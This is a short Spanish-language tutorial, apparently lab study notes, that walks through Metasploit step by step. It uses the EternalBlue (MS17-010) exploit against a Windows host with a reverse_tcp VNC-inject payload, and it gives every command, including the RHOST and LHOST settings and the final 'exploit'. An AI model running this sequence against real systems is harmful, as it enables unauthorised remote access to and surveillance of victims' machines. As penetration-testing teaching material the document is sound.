


# Ejemplo de MSF como parte introductoria

### En la terminal:

MSF utiliza el servicio de base de datos de postgres, asi que antes de lanzar msf iniciamos postgres

`service postgresql start`

luego podemos lanzar MSF con 

`msfconsole`

MSF se basa en su base de datos para aprovechar bugs e inyectar el codigo que querramos en el host vulnerable

Luego de que ha iniciado el promt(o terminal propia de MSF)

Podemos buscar el exploit previsto en el reporte de winXP anterior(___MS17-010___)

con el comando 

`search ms17-010`

Nos arrojara informacacion acerca de

***Nombre del exploit***

***La fecha en la que fue descubierto el exploit(Disclosure Date)*** 

***El ranking que definiria que tan bueno es el exploit(Rank)***

***La descripciion del exploit(Description)***

Encontramos dos resultados de esa vulnerabilidad

1. El primero es un auxiliar normal
2. ***El famoso y temido exploit eternal blue, culpable de una ola de ransomwares meses atras***

Para usar algun exploit le damos

`use exploit/windows/smb/ms17_010_eternalblue`

al dar enter el promt cambia para mostrar que se esta utilizando ese exploit

La carga que queremos que haga despues de ejecutar el exploit es el **Payload**

Puedo ver los payloads disponibles con

`show payloads`

Para este ejemplo utilizaremos un payload sencillo de vnc que premite unicamente visualizar la pantalla de la victima.

Con el comando 

`set payload windows/x64/vncinject/reverse_tcp`

se mostrara un mensaje des pues de ejecutar, que dice 

`payload => windows/x64/vncinject/reverse_tcp`

Luego tenemos que rellenar los parametros y opciones, almenos las requeridas

podemos ver que parametros pide rellenar el exploit con 

`show options`

Se podra ver una tabla y abra una columna con el nombre de required y el registro lo pide se debe insertar la informacion muchos ya vienen seteados por default

Uno de los que normalmente no es el RHOST(remote host), la ip de la maquina victima, la seteamos con la sgte secuencia de comandos

`> set RHOST 192.168.20.73`

que sera el host win7

`> set LHOST 192.168.10.05`

Nuestro host

podemos ver que todos los campos requeridos se hallan llenado correcctamente con `show options`

Y por ultimo para ejecutar el exploit le damos

`> exploit`

Se vera asi

para cerrar todo podemos dar 

`exit`